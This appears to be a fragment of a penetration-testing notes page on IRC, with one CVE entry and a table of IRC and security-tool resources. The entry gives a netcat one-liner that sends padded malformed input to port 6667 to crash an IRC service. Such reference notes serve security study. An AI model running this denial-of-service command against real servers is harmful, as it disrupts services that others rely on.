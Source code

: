 ### CVE-1999-0382
- **Tool:** [[NetCat]]
	```bash
	nc <target_ip> 6667 /SEND AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
	```
- **Description:** Remote attacker could cause a Denial of Service (DoS) by sending malformed IRC commands.

# Resources

|**Website**|**URL**|
|-|-|
|RFC 1459 (IRC Protocol)|https://tools.ietf.org/html/rfc1459|
|UnrealIRCd Documentation|https://www.unrealircd.org/docs/|
|HexChat|https://hexchat.github.io/|
|WeeChat|https://weechat.org/|
|IRSSI|https://irssi.org/|
|THC Hydra|https://github.com/vanhauser-thc/thc-hydra|
|Metasploit Framework|https://www.metasploit.com/|
|InspIRCd Documentation|https://docs.inspircd.org/|
|IRC Bouncers (ZNC)|https://znc.in/|
|Wireshark User Guide|https://www.wireshark.org/docs/wsug_html_chunked/|